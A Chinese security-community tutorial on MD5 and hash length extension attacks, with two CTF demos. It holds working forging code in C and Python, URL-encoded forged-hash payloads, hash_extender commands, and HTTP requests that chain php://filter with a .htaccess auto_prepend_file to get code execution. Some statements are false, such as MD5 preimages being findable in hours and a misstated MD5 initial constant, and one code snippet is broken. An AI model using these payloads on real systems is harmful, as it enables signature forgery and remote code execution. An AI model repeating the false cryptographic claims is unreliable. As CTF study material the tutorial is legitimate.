







# 奇安信攻防社区 - 深入浅出 - Hash 长度拓展攻击

# 0x00 前言

因为 kengwang 师傅在新生赛出了这个题目，但是之前没学过 www，这就来学学。

# 0x01 什么是 hash 长度拓展攻击

hash 长度拓展攻击，概括一下就是由于 hash 的生成机制使得我们可以人为的在原先的明文基础上添加新的拓展字符，从而使得原本的加密链变长，进一步控制加密链的最后一节，使得我们得以控制最终的结果。  
这里简单介绍一下 hash 算法。

## hash 算法

hash 算法又叫做散列算法。是一种把任意长度的字符串加密为固定长度的字符串的加密算法，该算法生成的密文就是散列值。这里拿一个比较典型的 MD5 来做例子来详细分析一下

# 0X02MD5 加密

## MD5 introduction

**MD5 消息摘要算法**是一种广泛使用的哈希函数，可生成 128 位哈希值。 MD5 由 Ronald Rivest 于 1991 年设计，用于取代早期的哈希函数 MD4 ，并于 1992 年被指定为 RFC 1321。

MD5 可用作校验和来验证数据完整性，防止意外损坏。历史上它被广泛用作加密哈希函数；然而，它被发现存在广泛的漏洞。它仍然适用于其他非加密目的，例如用于确定分区数据库中特定密钥的分区，并且由于比最新的安全散列算法更低的计算要求，它可能是首选。

## MD5 proccess

这里我将 MD5 加密分为三个步骤，分别是：

-   填充
-   分块
-   多轮压缩  
    最后输出，这里我一一举例

### 填充

这里我贴一下墨师傅的脚本

```python
def text_to_binary(text_str):
    binary_str = ' '.join(format(ord(x), 'b') for x in text_str)
    return binary_str

text_input = '0123456789abcdef'
binary_output = text_to_binary(text_input)
print('binary result is:{0}'.format(binary_output))
```

具体的代码逻辑应该很清晰

-   input 是 0-f
-   将 input 转换为 2 进制内容  
    这里的输出为 \`\`\`php  
    00110000 00110001 00110010 00110011 00110100 00110101 00110110 00110111 00111000 00111001 01100001 01100010 01100011 01100100 01100101 01100110
    
    ```plain
    
    这里便是128位的二进制字符  
    或者我们可以用010来查看文件，这里举例
    ```
    

  
这里就是 9\*8=72 个二进制字符

#### 填充的 rule

**什么叫填充呢，填充的过程就是讲 2 进制字符个数填充到 512 比特的整数倍大小，并且需要在最后面预留 64 位来固定表示原始数据大小，即小端在前格式，中间剩下的比特第一个填 1 其余的补 0**

那么对于以上的两个二进制文件，则就可以按照这个填充规则来进行填充。

#### 疑问？

这里提出一个小问题，如果说你输入的数据刚好为 512bit 呢，那么他是否会进行填充，答案是肯定的，因为没有最后 64 位固定值来表示原始数据大小，那么就会填充到 1024-512=512 个数据（当然包含进最后 64 位固定数据）。  
包括在最后不足 64 位时也需要补齐到下一个 512 整数倍的数据。  
最后补的 64 位的值就是前面数据长度的大小，例如 abcd，则就是 4\*8=32，转化成二进制就是 100000。

### 分块

那么在前面进行填充后肯定可以进行分块，并且分块肯定可以是 512 的整数倍。  
并且这个时候会给出四组幻数来作为的初始值  
这个初始值是固定的  
0x67452301, 0xefcdab89, 0x98badcfe, 0x10235476

### 多轮压缩

过程：把当前的四组散列值各复制一份，分别用 abcd 来表示  
然后在每一个数据块中进行四轮操作，其中包含与，或，非，和循环位移操作，每次把 abcd 更新四次。  
所以每个大块都可以对 abcd 的值进行更新 16 次。

这里我贴一个 java 实现 md5 加密的脚本

```java
import java.security.MessageDigest;  
import java.security.NoSuchAlgorithmException;  

public class MD5 {  

    public static void main(String[] args) {  
        String input = "Hello, World!";  
        String encrypted = encryptToMD5(input);  
        System.out.println("Original String: " + input);  
        System.out.println("MD5 Encrypted String: " + encrypted);  
    }  

    public static String encryptToMD5(String input) {  
        try {  
            MessageDigest md = MessageDigest.getInstance("MD5");  
            md.update(input.getBytes());  
            byte[] digest = md.digest();  
            StringBuilder sb = new StringBuilder();  
            for (byte b : digest) {  
                sb.append(String.format("%02x", b & 0xff));  
            }  
            return sb.toString();  
        } catch (NoSuchAlgorithmException e) {  
            e.printStackTrace();  
            return null;  
        }  
    }  
}
```

# MD5 攻击

## 第一原像攻击（First Preimage Attack）

第一原像攻击的目标是从给定的哈希值ℎh 中找到相应的消息 m，使得当这个消息被输入到哈希函数（例如 MD5）时，会产生给定的哈希值ℎ。

在 MD5 的上下文中，虽然找到第一原像的理论复杂度是 O (2^128)（由于 MD5 生成 128 位的哈希值），但是由于 MD5 的安全性问题，实际上的攻击复杂度远低于理论值。例如，研究已经显示，使用现代硬件和算法，可以在几小时或几天内找到 MD5 的第一原像。

## 第二原像攻击（Second Preimage Attack）

第二原像攻击的目标是对于给定的输入消息 m1​，找到另一个不同的消息 m2​，使得两个消息产生相同的哈希值。这意味着对于哈希值ℎ，存在两个不同的消息 m1​和 m2​满足：

```php
MD5(m1​)=MD5(m2​)=h
```

同样，理论上，第二原像攻击的复杂度是 O (2^128)，但由于 MD5 的弱点，实际攻击的复杂度比理论值低得多。尽管如此，相对于第一原像攻击，第二原像攻击仍然是一个更为困难的问题。

## 碰撞攻击

碰撞攻击是一种密码学攻击，目的是找到两个不同的输入消息（也称为原文），这两个消息在经过同一哈希函数计算后，会产生相同的哈希值。换句话说，攻击者试图找到两个不同的消息 m1​ 和 m2​，使得：

hash(m1​)=hash(m2​)

在 MD5 的上下文中，由于 MD5 哈希值为 128 位，理论上的碰撞攻击复杂度为 O (2^128)。然而，由于 MD5 的设计缺陷和计算上的优化，现实中的碰撞攻击比这个理论复杂度要低得多。

### example

2004 年，Xiaoyun Wang 等人发布了一个研究，成功地找到了两个不同的 PDF 文件，这两个文件在经过 MD5 哈希后产生了相同的哈希值。这是 MD5 碰撞攻击的早期和最著名的例子。

具体来说，这项研究找到了两个 PDF 文件：一个是普通的合同文件，另一个是恶意的 PDF 文件，其中嵌入了攻击代码。当这两个文件经过 MD5 哈希后，它们产生了相同的 128 位哈希值。这意味着，对于 MD5 哈希值来说，这两个文件是不可区分的，尽管它们的内容截然不同。

这个例子揭示了 MD5 在实际应用中的严重安全风险。如果攻击者能够找到一个合法文件和一个恶意文件，这两个文件的 MD5 哈希值相同，那么攻击者就可以轻易地伪装合法文件，诱使用户打开恶意文件，从而进行恶意攻击。

由于 MD5 的这种弱点，现在强烈建议避免使用 MD5 进行任何安全相关的应用，而应选择更安全的哈希算法，如 SHA-256 或 SHA-3。这些算法在当时被认为是安全的，并且不容易受到碰撞攻击的威胁。

# Hash 长度拓展攻击

**可能我现在写的东西有点抽象，不过后面我会总结讲一下为什么要这么做以及他的原理**  
这里定义一些东西

-   let `secret = "secret"`
-   let `data = "data"`
-   let `H = md5()`
-   let `signature = hash(secret || data) = 6036708eba0d11f6ef52ad44e8b74d5b`
-   let `append = "append"`

首先这里放出一个简单的 example

```php
0000  73 65 63 72 65 74 64 61 74 61 80 00 00 00 00 00  secretdata......
0010  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0020  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
0030  00 00 00 00 00 00 00 00 50 00 00 00 00 00 00 00  ........P.......
```

代码模式可能看的不是很清晰，这里我贴出来图片

  
当然这里是利用 16 进制来表示的，我们用二进制也是可以的，8->1，5->8bit。

## ATTACK

这里我们将一个值，就是前面的 append 加入到字符串中，是这样的



此时，这个哈希值有两种计算方式（破题点，这个后面会好好解释一下可能这里比较抽象）

-   通过将其粘贴在缓冲区中并执行 `H(buffer)`
-   从第一个块的末尾开始，使用我们已经知道的状态 `signature`，并 `append` 从该状态开始进行散列

### 对于一种（也是在服务器端的计算过程）

其实就是按照正常的生成 hash 值的过程，最后生成出来的哈希值请我们这里暂定为：  
`6ee582a1669ce442f3719c47430dadee`  
这里贴出一下生成其 md5 的一个脚本

```c
echo '
#include <stdio.h>
#include <openssl/md5.h>

int main(int argc, const char *argv[])
{
  MD5_CTX c;
  unsigned char buffer[MD5_DIGEST_LENGTH];
  int i;

  MD5_Init(&c);
  MD5_Update(&c, "secret", 6);
  MD5_Update(&c, "data"
                 "\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                 "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                 "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
                 "\x00\x00\x00\x00"
                 "\x50\x00\x00\x00\x00\x00\x00\x00"
                 "append", 64);
  MD5_Final(buffer, &c);

  for (i = 0; i < 16; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}' > hash_extension_1.c

gcc -o hash_extension_1 hash_extension_1.c -lssl -lcrypto

./hash_extension_1
```

可以看到这里的签名就是我们之前的数据。

### 第二种（也就是攻击者）

这里我直接贴脚本出来

```c
#include <stdio.h>
#include <openssl/md5.h>

int main(int argc, const char *argv[])
{
  int i;
  unsigned char buffer[MD5_DIGEST_LENGTH];
  MD5_CTX c;

  MD5_Init(&c);
  MD5_Update(&c, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 64);

  c.A = htonl(0x6036708e); /* <-- This is the hash we already had */
  c.B = htonl(0xba0d11f6);
  c.C = htonl(0xef52ad44);
  c.D = htonl(0xe8b74d5b);

  MD5_Update(&c, "append", 6); /* This is the appended data. */
  MD5_Final(buffer, &c);
  for (i = 0; i < 16; i++) {
    printf("%02x", buffer[i]);
  }
  printf("\n");
  return 0;
}' > hash_extension_2.c

gcc -o hash_extension_2 hash_extension_2.c -lssl -lcrypto

./hash_extension_2
```

可以看见我们这里对四个幻数（前面的理论有讲到），作为了一个初始参数  
let `signature = hash(secret || data) = 6036708eba0d11f6ef52ad44e8b74d5b`  
来进行 md5 值的加密，其实就是利用了 AAAA 那群数据块对其进行了再次的**多轮压缩环节**。  
最后生成出来的哈希值  
`6ee582a1669ce442f3719c47430dadee`

其实到此为止，这个攻击就完成了。但是这里要说一下，放在理论上是比较难理解的，这里还是需要举例子可以更加直观的理解（其实在题目中的本质就是将最后面的多轮压缩再对你可控的 append 进行一次压缩从而你可以知道后面生成的 MD5 值是什么）

## DEMO1

```php
<?php
error_reporting(0);
$flag=getenv("DASFLAG");

if(isset($_GET["md5"]) && isset($_GET["i"]) && isset($_GET["s"])){
    $fl4g = substr_replace($flag, $_GET["s"], $_GET["i"], 1);
    if($_GET["md5"] === md5($fl4g)){
        echo $flag;
    }else{
        die("please try again");
    }
}else{
    highlight_file(__FILE__);
    echo md5($flag."yusa");
} 1c3de59d2f68788cc792e0eb7d604710
```

这里直接放出 playload：  
`?md5=d9671633e3723203bc2a1479c8412307&i=-1&s=}yusa%80%00%00%00%00%00%00%00%00%00%00%00%00%00%50%01%00%00%00%00%00%00a`  
这里我利用前面的的讲的 ATTACK 来进行讲解:

例如我们的 flag 值是 `DT{axsak1dlsajl1}`  
那么此时的 16 进制就是这样的

  
然后在加了 salt 之后就是加入 `yusa` 后就是

  
此时的原始数据长度就是 21\*8=168bit，转化为 16 进制就是 a8  
填充后就是这样

  
那么进行多轮压缩的时候就是将其作为一个数据块进行压缩。  
这里我直接贴出来 md5 值为：  
`2b604a43f439b6e02c09dece6a83e503`  
这个是我们已知的，后面用 \[YZ\] 表示

#### 构造

这个时候我们就可以构造一下我们的 playload 什么的了  
我们看到题目  
`$fl4g = substr_replace($flag, $_GET["s"], $_GET["i"], 1);`  
是对原本的 flag 进行了替换，那么此时我们可以想想，因为这个题目只能替换掉一个长度，那么对于定义，在前面的数据块中我们已经知道了其 md5 值，那么我们可以替换后添加到下一个数据块让他再次进行压缩，这个时候我们就知道他的下一个构造出来的 md5 是什么了  
过程：

  
这个是完整的一个数据块，那么此时我们如果替换完后把他变为

  
这样之后那么是不是在服务端就会再次对其进行填充和多轮压缩，也就是这样

  
（这里的 A7 是我随便写的，因为懒得算前面的长度再转换了）  
这里此时是不是第二个分块压缩就会利用包含 a 在的数据块再次对数据进行压缩，此时生成出来的 md5 值就和我们需要的 md5 值便一样了，  
这里随便举一个例子：我们生成的 md5 是 `d9671633e3723203bc2a1479c8412307`  
那么显而易见，在服务端生成的 md5 值也就一定是这个也就绕过了  
`$_GET["md5"] === md5($fl4g)` 的限制了

## demo1 小总结

总的来说，我们可以很容易的看出来，其实就是我们可以构造出和原本数据一样的数据块之后自己补到下一个数据块内容来进行获得 md5 的加密值，也就是将我们的 YZ 放到上面 ATTACK-> 第二种下面的脚本来进行获得 md5 值的过程

这个 demo1 后面再放出一个 py 脚本

```python
# -*- coding: utf-8 -*-
# @Author: King kaki
# @Date:   2018-08-04 12:40:11
# @Last Modified by:   kingkk
# @Last Modified time: 2018-08-12 15:08:28
import math

F = lambda x, y, z: ((x & y) | ((~x) & z))
G = lambda x, y, z: ((x & z) | (y & (~z)))
H = lambda x, y, z: (x ^ y ^ z)
I = lambda x, y, z: (y ^ (x | (~z)))
L = lambda x, n: (((x << n) | (x >> (32 - n))) & (0xffffffff))
shi_1 = (7, 12, 17, 22) * 4
shi_2 = (5, 9, 14, 20) * 4
shi_3 = (4, 11, 16, 23) * 4
shi_4 = (6, 10, 15, 21) * 4
m_1 = (0, 1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15)
m_2 = (1, 6, 11, 0, 5, 10, 15, 4, 9, 14, 3, 8, 13, 2, 7, 12)
m_3 = (5, 8, 11, 14, 1, 4, 7, 10, 13, 0, 3, 6, 9, 12, 15, 2)
m_4 = (0, 7, 14, 5, 12, 3, 10, 1, 8, 15, 6, 13, 4, 11, 2, 9)

def T(i):
    return (int(4294967296 * abs(math.sin(i)))) & 0xffffffff

def shift(shift_list):
    shift_list = [shift_list[3], shift_list[0], shift_list[1], shift_list[2]]
    return shift_list

def fun(fun_list, f, m, shi):
    count = 0
    global Ti_count
    while count < 16:
        xx = int(fun_list[0], 16) + f(int(fun_list[1], 16), int(fun_list[2], 16), int(fun_list[3], 16)) + int(m[count], 16) + T(Ti_count)
        xx &= 0xffffffff
        ll = L(xx, shi[count])
        fun_list[0] = hex((int(fun_list[1], 16) + ll) & 0xffffffff)
        fun_list = shift(fun_list)
        count += 1
        Ti_count += 1
    return fun_list

def gen_m16(order, ascii_list, f_offset):
    ii = 0
    m16 = [0] * 16
    f_offset *= 64
    for i in order:
        i *= 4
        m16[ii] = '0x' + ''.join((ascii_list[i + f_offset] + ascii_list[i + 1 + f_offset] + ascii_list[i + 2 + f_offset] + ascii_list[i + 3 + f_offset]).split('0x'))
        ii += 1
    for ind in range(len(m16)):
        m16[ind] = reverse_hex(m16[ind])
    return m16

def reverse_hex(hex_str):
    hex_str = hex_str[2:]
    if len(hex_str) < 8:
        hex_str = '0' * (8 - len(hex_str)) + hex_str
    hex_str_list = []
    for i in range(0, len(hex_str), 2):
        hex_str_list.append(hex_str[i:i + 2])
    hex_str_list.reverse()
    hex_str_result = '0x' + ''.join(hex_str_list)
    return hex_str_result

def show_result(f_list):
    result = ''
    f_list1 = [0] * 4
    for i in f_list:
        f_list1[f_list.index(i)] = reverse_hex(i)[2:]
        result += f_list1[f_list.index(i)]
    return result

def padding(input_m, msg_lenth=0):
    ascii_list = list(map(hex, map(ord, input_m)))
    msg_lenth += len(ascii_list) * 8
    ascii_list.append('0x80')
    for i in range(len(ascii_list)):
        if len(ascii_list[i]) < 4:
            ascii_list[i] = '0x' + '0' + ascii_list[i][2:]
    while (len(ascii_list) * 8 + 64) % 512 != 0:
        ascii_list.append('0x00')
    msg_lenth_0x = hex(msg_lenth)[2:]
    msg_lenth_0x = '0x' + msg_lenth_0x.rjust(16, '0')
    msg_lenth_0x_big_order = reverse_hex(msg_lenth_0x)[2:]
    msg_lenth_0x_list = []
    for i in range(0, len(msg_lenth_0x_big_order), 2):
        msg_lenth_0x_list.append('0x' + msg_lenth_0x_big_order[i: i + 2])
    ascii_list.extend(msg_lenth_0x_list)
    return ascii_list

def md5(input_m):
    global Ti_count
    Ti_count = 1
    abcd_list = ['0x67452301', '0xefcdab89', '0x98badcfe', '0x10325476']
    ascii_list = padding(input_m)
    for i in range(0, len(ascii_list) // 64):
        aa, bb, cc, dd = abcd_list
        order_1 = gen_m16(m_1, ascii_list, i)
        order_2 = gen_m16(m_2, ascii_list, i)
        order_3 = gen_m16(m_3, ascii_list, i)
        order_4 = gen_m16(m_4, ascii_list, i)
        abcd_list = fun(abcd_list, F, order_1, shi_1)
        abcd_list = fun(abcd_list, G, order_2, shi_2)
        abcd_list = fun(abcd_list, H, order_3, shi_3)
        abcd_list = fun(abcd_list, I, order_4, shi_4)
        output_a = hex((int(abcd_list[0], 16) + int(aa, 16)) & 0xffffffff)
        output_b = hex((int(abcd_list[1], 16) + int(bb, 16)) & 0xffffffff)
        output_c = hex((int(abcd_list[2], 16) + int(cc, 16)) & 0xffffffff)
        output_d = hex((int(abcd_list[3], 16) + int(dd, 16)) & 0xffffffff)
        abcd_list = [output_a, output_b, output_c, output_d]
        Ti_count = 1
        print(ascii_list)
    return show_result(abcd_list)

# md5-Length Extension Attack: 计算 md5(message + padding + suffix), res = md5(message), len_m = len(message)
def md5_lea(suffix, res, len_m):
    global Ti_count
    Ti_count = 1
    abcd_list = []
    for i in range(0, 32, 8):
        abcd_list.append(reverse_hex('0x' + res[i: i + 8]))
    # print(abcd_list)
    ascii_list = padding(suffix, (len_m + 72) // 64 * 64 * 8)  # len(message + padding) * 8
    # print(ascii_list)
    for i in range(0, len(ascii_list) // 64):
        aa, bb, cc, dd = abcd_list
        order_1 = gen_m16(m_1, ascii_list, i)
        order_2 = gen_m16(m_2, ascii_list, i)
        order_3 = gen_m16(m_3, ascii_list, i)
        order_4 = gen_m16(m_4, ascii_list, i)
        abcd_list = fun(abcd_list, F, order_1, shi_1)
        abcd_list = fun(abcd_list, G, order_2, shi_2)
        abcd_list = fun(abcd_list, H, order_3, shi_3)
        abcd_list = fun(abcd_list, I, order_4, shi_4)
        output_a = hex((int(abcd_list[0], 16) + int(aa, 16)) & 0xffffffff)
        output_b = hex((int(abcd_list[1], 16) + int(bb, 16)) & 0xffffffff)
        output_c = hex((int(abcd_list[2], 16) + int(cc, 16)) & 0xffffffff)
        output_d = hex((int(abcd_list[3], 16) + int(dd, 16)) & 0xffffffff)
        abcd_list = [output_a, output_b, output_c, output_d]
        Ti_count = 1
    # print(ascii_list)
    return show_result(abcd_list)

def url_append(hex_bit):
    len_append = '0x{}{}'.format( (18-len(hex_bit))*'0', hex_bit[2:])
    len_append = reverse_hex(len_append)[2:]
    # print(len_append)
    t = ''
    for i in range(len(len_append)):
        if i % 2 ==0 :
            t += '%'+len_append[i:i+2]
        else:
            pass
    return t

if __name__ == '__main__':
    '''
    修改res为已知哈希值
    extend 为拓展值
    自动遍历出1-30长度的payload url编码表达式
    '''
    res = '1c3de59d2f68788cc792e0eb7d604710'
    extend = '}'
    # print(reverse_hex('0x' + res))

    for i in range(45):
        hex_bit = hex(i*8)
        t = url_append(hex_bit)
        print('[%d]' % i,md5_lea(extend,res,i))
        # print('{}%80{}{}{}'.format('X'*i, (55-i)*'%00',t, extend) )
        print('%80{}{}{}'.format((55-i)*'%00',t, extend) )
        # print('{}{}'.format( hex(i), (18-len(hex(i)))*'0') )
    # from urllib.parse import unquote
    # print(md5_lea('kingkk','571580b26c65f306376d4f64e53cb5c7',10))
```

## DEMO2

这个是 kengwang 师傅出的一道题目

```php
 <?php
highlight_file(__FILE__);
include 'secret.php';
$input = base64_decode($_REQUEST['content']);
$userhash = $_REQUEST['hash'];
$content = $secret . $input;
if (md5($secret) !== '37870febc8d470109a867802b8031454')
{
    exit("No no, Don't change the secret.");
}
echo "Secret's length is " . strlen($secret) . "    ";
$hash = md5($content);
// Is that enough? Let's see...
if (strlen($userhash) == 32 && $hash === $userhash) {
    echo "Congratulations! I will write your input into file.";
    $filename = explode("[[", $input)[1];
    // take it easy, i will change the return for you   
    $filename = str_replace("\\n", "\n", str_replace("\0",'',$filename));
    $content = $secret . $filename;
    file_put_contents($filename, $content);
} else {
    exit("Think Extensively.");
} 
```

这里同样也给出了加密前的 secret 的 md5 值，我们这里就当做 data 也就是 demo1 的 yusa 是空值即可。  
当然因为这里加入了死亡杂糅的内容所以这里我放出 wp，其实总的来说还是上面分析的方法。

我们可以使用 `hash_extender` 这个工具来进行哈希长度扩展攻击，生成新的密文

首先考虑将 `secret` 写入到一个文件中

执行:

```shell
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[a.txt" -f md5 -l 13 -d ''
```

得到:

```php
Type: md5
Secret length: 13
New signature: 4f150e4b71070951112f56be4044c181
New string: 8000000000000000000000000000000000000000000000000000000000000000000000000000000000000068000000000000005b5b612e747874
```

> 可能需要用 CyberChef 套 From Hex (Auto) - To Base64

发送:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: dino-ctf.kengwang.com.cn:32857

hash=4f150e4b71070951112f56be4044c181&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1thLnR4dA
```

访问 `a.txt`

发现 `secret` 是 `<?php die();`, 接下来是死亡 die 绕过

这里需要用到伪协议的一些技巧:

首先利用 `string.strip_tags` 的过滤器链吞掉之前的死亡 die, 然后再在后面接上你想要写的内容

这里使用写 `.htaccess` 的方法来实现 rce, 直接加个 `auto_prepend_file` 即可

构造出 `php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess`

```bash
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess" -f md5 -l 13 -d ''
```

最终 payload:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:32768

hash=473640a1e1ec5efa6bdaf4c7c8f04482&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1twaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnN0cmlwX3RhZ3MvPz5waHBfdmFsdWUgYXV0b19wcmVwZW5kX2ZpbGUgZmxhZ1xuIy9yZXNvdXJjZT0uaHRhY2Nlc3M
```

即可写入

# Conclusion

总的来说，这个攻击方法还是很好玩的，只不过发现市面上很多的文章写的不尽人意，看了一天都可能不明白其中的原理，写的过于抽象所以想着写写。  
只要我们注意到 MD5 中加密过程中的填充和多轮压缩，并且利用即可，当然也有很多工具可以生成一些 playload，这个就不放出来了。  
最后感谢 kengwang 师傅，x1r0z 师傅的指导

参考文章：  
1、 [https://xz.aliyun.com/t/10602](https://xz.aliyun.com/t/10602)  
2、 [https://github.com/iagox86/hash\_extender](https://github.com/iagox86/hash_extender)
